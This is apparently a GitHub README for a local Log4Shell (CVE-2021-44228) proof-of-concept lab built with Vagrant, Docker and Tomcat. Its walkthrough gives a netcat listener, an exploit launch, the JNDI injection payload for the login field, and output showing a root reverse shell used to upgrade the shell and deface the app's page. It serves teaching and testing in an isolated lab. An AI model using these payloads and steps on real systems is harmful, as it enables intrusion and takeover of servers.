

# Log4Shell PoC

rm_poc_log4shell

## PreReqs

- Windows system with minimum 8GB RAM
- Installed:
  - Visual Studio Code
  - git
  - virtualbox
  - vagrant
- download vulnerable [jdk-8u20](https://mega.nz/file/cFQF3SpC#U01e3y3L2f-_lYzL8s5a_x11C4n7IJYMbztS4x2mT-o)

## Credentials

| Login   | Passwd  | VM      |
| :------ | :------ | :------ |
| vagrant | vagrant | all     |
| debuser | log123  | deblab  |
| kauser  | log123  | kalilab |

## VM environment

1. clone repo: <https://github.com/ttgithg/rm_poc_log4shell>

    ```bash
    git clone git@github.com:ttgithg/rm_poc_log4shell
    ```

2. Put downloaded jdk-file in cloned github repo: `\rm_poc_log4shell\provisioning\files\log4jlab`

3. Open Visual Studio Code and open the cloned repo `rm_poc_log4shell` as a working folder

4. Open the root of `rm_poc_log4shell` in an Integrated Terminal

5. Check status: `vagrant status`

6. Create VM + provision: `vagrant up deblab`

    **Note**: In case of errors correct them and try provisioning again with: `vagrant provision deblab`

**Note**:

You can connect with ssh: `vagrant ssh deblab`

## Lab environment

Open the deblab GUI and login with debuser.
We will need 3 terminals for this setup to manage a log4shell hack.
We open the browser on the localhost:8080 and past the given request: `${jndi:ldap://localhost:1389/a}`

### Summary

```bash
# Terminal1: netcat listener
nc -lvnp 9001

# Terminal2: Launch exploit
cd /log4jlab
sudo python3 poc.py --userip localhost --webport 8000 --lport 9001

# Terminal3: vulnerable application
cd /log4jlab
docker build -t log4j-shell-poc .
docker run --network host log4j-shell-poc

# browser: paste request: ${jndi:ldap://localhost:1389/a}
http://localhost:8080/
```

### Extended walkthrough

#### Terminal 1: netcat listener

```bash
debuser@deblab:/log4jlab$ nc -lvnp 9001
Listening on 0.0.0.0 9001
```

#### Terminal 2: Launch exploit

```bash
debuser@deblab:/log4jlab$ cd /log4jlab/; ls
Dockerfile                 LICENSE    requirements.txt
jdk1.8.0_20                poc.py     target
jdk-8u20-linux-x64.tar.gz  README.md  vulnerable-application

debuser@deblab:/log4jlab$ sudo python3 poc.py --userip localhost --webport 8000 --lport 9001

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for debuser: 

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

[+] Starting Webserver on port 8000 http://0.0.0.0:8000
Listening on 0.0.0.0:1389
```

#### Terminal 3: create vulnerable application

```bash
debuser@deblab:/log4jlab$ cd /log4jlab/

debuser@deblab:/log4jlab$ docker build -t log4j-shell-poc .
Sending build context to Docker daemon  574.8MB
Step 1/5 : FROM tomcat:8.0.36-jre8
8.0.36-jre8: Pulling from library/tomcat
8ad8b3f87b37: Pull complete 
751fe39c4d34: Pull complete 
b165e84cccc1: Pull complete 
acfcc7cbc59b: Pull complete 
04b7a9efc4af: Pull complete 
b16e55fe5285: Pull complete 
8c5cbb866b55: Pull complete 
96290882cd1b: Pull complete 
85852deeb719: Pull complete 
ff68ba87c7a1: Pull complete 
584acdc953da: Pull complete 
cbed1c54bbdf: Pull complete 
4f8389678fc5: Pull complete 
Digest: sha256:e6d667fbac9073af3f38c2d75e6195de6e7011bb9e4175f391e0e35382ef8d0d
Status: Downloaded newer image for tomcat:8.0.36-jre8
 ---> 945050cf462d
Step 2/5 : RUN rm -rf /usr/local/tomcat/webapps/*
 ---> Running in f07313c7813c
Removing intermediate container f07313c7813c
 ---> 0aa3d79eeb7c
Step 3/5 : ADD target/log4shell-1.0-SNAPSHOT.war /usr/local/tomcat/webapps/ROOT.war
 ---> 3236fc49ad3d
Step 4/5 : EXPOSE 8080
 ---> Running in b73e25384301
Removing intermediate container b73e25384301
 ---> 709b6daec9b1
Step 5/5 : CMD ["catalina.sh", "run"]
 ---> Running in a390bc35dbb4
Removing intermediate container a390bc35dbb4
 ---> bb22ea172197
Successfully built bb22ea172197
Successfully tagged log4j-shell-poc:latest

debuser@deblab:/log4jlab$ docker run --network host log4j-shell-poc
25-May-2022 17:29:07.563 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Server version:        Apache Tomcat/8.0.36
25-May-2022 17:29:07.564 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Server built:          Jun 9 2016 13:55:50 UTC
25-May-2022 17:29:07.564 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Server number:         8.0.36.0
25-May-2022 17:29:07.565 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log OS Name:               Linux
25-May-2022 17:29:07.565 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log OS Version:            5.10.0-13-amd64
25-May-2022 17:29:07.565 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Architecture:          amd64
25-May-2022 17:29:07.565 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Java Home:             /usr/lib/jvm/java-8-openjdk-amd64/jre
25-May-2022 17:29:07.565 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log JVM Version:           1.8.0_102-8u102-b14.1-1~bpo8+1-b14
25-May-2022 17:29:07.565 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log JVM Vendor:            Oracle Corporation
25-May-2022 17:29:07.565 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log CATALINA_BASE:         /usr/local/tomcat
25-May-2022 17:29:07.565 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log CATALINA_HOME:         /usr/local/tomcat
25-May-2022 17:29:07.565 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djava.util.logging.config.file=/usr/local/tomcat/conf/logging.properties
25-May-2022 17:29:07.565 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djava.util.logging.manager=org.apache.juli.ClassLoaderLogManager
25-May-2022 17:29:07.566 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djdk.tls.ephemeralDHKeySize=2048
25-May-2022 17:29:07.566 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djava.endorsed.dirs=/usr/local/tomcat/endorsed
25-May-2022 17:29:07.566 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Dcatalina.base=/usr/local/tomcat
25-May-2022 17:29:07.566 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Dcatalina.home=/usr/local/tomcat
25-May-2022 17:29:07.566 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djava.io.tmpdir=/usr/local/tomcat/temp
25-May-2022 17:29:07.566 INFO [main] org.apache.catalina.core.AprLifecycleListener.lifecycleEvent Loaded APR based Apache Tomcat Native library 1.2.7 using APR version 1.5.1.
25-May-2022 17:29:07.567 INFO [main] org.apache.catalina.core.AprLifecycleListener.lifecycleEvent APR capabilities: IPv6 [true], sendfile [true], accept filters [false], random [true].
25-May-2022 17:29:07.569 INFO [main] org.apache.catalina.core.AprLifecycleListener.initializeSSL OpenSSL successfully initialized (OpenSSL 1.0.2h  3 May 2016)
25-May-2022 17:29:07.616 INFO [main] org.apache.coyote.AbstractProtocol.init Initializing ProtocolHandler ["http-apr-8080"]
25-May-2022 17:29:07.621 INFO [main] org.apache.coyote.AbstractProtocol.init Initializing ProtocolHandler ["ajp-apr-8009"]
25-May-2022 17:29:07.622 INFO [main] org.apache.catalina.startup.Catalina.load Initialization processed in 345 ms
25-May-2022 17:29:07.637 INFO [main] org.apache.catalina.core.StandardService.startInternal Starting service Catalina
25-May-2022 17:29:07.637 INFO [main] org.apache.catalina.core.StandardEngine.startInternal Starting Servlet Engine: Apache Tomcat/8.0.36
25-May-2022 17:29:07.652 INFO [localhost-startStop-1] org.apache.catalina.startup.HostConfig.deployWAR Deploying web application archive /usr/local/tomcat/webapps/ROOT.war
25-May-2022 17:29:07.751 WARNING [localhost-startStop-1] org.apache.tomcat.util.descriptor.web.WebXml.setVersion Unknown version string [4.0]. Default version will be used.
25-May-2022 17:29:08.005 INFO [localhost-startStop-1] org.apache.jasper.servlet.TldScanner.scanJars At least one JAR was scanned for TLDs yet contained no TLDs. Enable debug logging for this logger for a complete list of JARs that were scanned but no TLDs were found in them. Skipping unneeded JARs during scanning can improve startup time and JSP compilation time.
25-May-2022 17:29:08.025 INFO [localhost-startStop-1] org.apache.catalina.startup.HostConfig.deployWAR Deployment of web application archive /usr/local/tomcat/webapps/ROOT.war has finished in 373 ms
25-May-2022 17:29:08.030 INFO [main] org.apache.coyote.AbstractProtocol.start Starting ProtocolHandler ["http-apr-8080"]
25-May-2022 17:29:08.055 INFO [main] org.apache.coyote.AbstractProtocol.start Starting ProtocolHandler ["ajp-apr-8009"]
25-May-2022 17:29:08.056 INFO [main] org.apache.catalina.startup.Catalina.start Server startup in 433 ms
```

#### Browser

- Open URL: <http://localhost:8080/>
- paste `${jndi:ldap://localhost:1389/a}` in the `username` section
- press `login`



The hack succeeded when the netcat listener gives:

```bash
debuser@deblab:/log4jlab$ nc -lvnp 9001
Listening on 0.0.0.0 9001
Connection received on 127.0.0.1 33230
```

### Hack along

You can check your access, switch to interactive shell and do your log4shell afterhackings ..

```bash
debuser@deblab:/log4jlab$ nc -lvnp 9001
Listening on 0.0.0.0 9001
Connection received on 127.0.0.1 33230
whoami
root
/usr/bin/script -qc /bin/bash /dev/null
root@deblab:/usr/local/tomcat# ^Z
[1]+  Stopped                 nc -lvnp 9001
debuser@deblab:/log4jlab$ stty raw -echo; fg; reset
nc -lvnp 9001

root@deblab:/usr/local/tomcat# sed -i 's/Hello Again!/<<< LOG4SHELL PoC >>>/g' webapps/ROOT/index.jsp

root@deblab:/usr/local/tomcat# sed -i 's/Login/HACKED/g' webapps/ROOT/index.jsp

# Refresh browser ;-)
```


### Reference

- Automated environment using vagrant with a [ansible skeleton](https://github.com/bertvv/ansible-skeleton) built by bertvv
- Log4j CVE-2021-44228 poc [githubRepo](https://github.com/kozmer/log4j-shell-poc) built by kozer
- Log4j CVE-2021-44228 testing tools [URL](https://log4shell.tools/) and [gitRepo](https://github.com/alexbakker/log4shell-tools) built by Alexander Bakker
